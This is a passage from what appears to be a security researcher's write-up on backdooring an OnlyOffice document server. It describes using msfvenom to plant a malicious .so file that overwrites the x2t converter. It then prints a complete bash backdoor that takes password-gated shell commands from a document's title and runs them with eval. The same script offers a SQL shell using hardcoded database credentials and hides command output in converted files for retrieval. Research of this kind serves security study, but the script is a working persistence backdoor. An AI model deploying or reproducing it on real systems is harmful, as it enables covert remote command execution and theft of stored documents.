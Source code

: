 Fortunately, the `FileConverter/bin` directory was writable by the web service user. I selected `libpthread.so` as a file to create and used MSF Venom to create a simple `.so` payload which copied a script over `x2t`. This was packaged along with the backdoor script (and a backup version of `x2t` just to not completely break the server in case anything goes wrong).

![Structure of the backdoor docx](img/backdoordocx_structure.png)

The backdoor script itself takes the title parameter from the document conversion task, checks to see if it has the right password and then executes the rest of the string as a bash command. The output of the command is then swapped into the input for the document conversion job so that if we were to download the signed URL which is generated after the conversion job, it would contain the output of our command.

I realised an SQL shell would also be kind of handy for listing out document ids, so I added that in as well.

```bash
#!/usr/bin/env bash

# Overwritten for a binary then calls the original binary

# Get title
title=$(grep -o "<m_sTitle>.*</m_sTitle>" $1 | cut -d\> -f 2- | rev | cut -d \< -f 2- | rev | sed 's/&nbsp;/ /g; s/&amp;/\&/g; s/&lt;/\</g; s/&gt;/\>/g; s/&quot;/\"/g; s/#&#39;/\'"'"'/g; s/&ldquo;/\"/g; s/&rdquo;/\"/g;')

# Get tmp input file path
infile=$(grep -o "<m_sFileFrom>.*</m_sFileFrom>" $1 | cut -d\> -f 2- | rev | cut -d \< -f 2- | rev)
# cat $1 > /tmp/out
# echo $title >> /tmp/out
# echo $infile >> /tmp/out

# Test to see if this is a backdoor command
cmdtype=$(echo $title | cut -d: -f 1)
password=$(echo $title | cut -d: -f 2)
cmd=$(echo $title | cut -d: -f 3-)
if [[ $password == {PASSWORD} ]]; then
  # echo "Command: $cmd" >> /tmp/out
  case $cmdtype in
  "SHELL")
    eval $cmd > $infile
    ;;
  "SQL")
    psql postgresql://onlyoffice:onlyoffice@localhost/onlyoffice -o $infile -c "$cmd"
    ;;
  esac
 #  cat $infile >> /tmp/out
fi

# Get dir this is executed in
SCRIPT_DIR="$( cd -- "$( dirname -- "${BASH_SOURCE[0]}" )" &> /dev/null && pwd )"
# echo $SCRIPT_DIR >> /tmp/out

```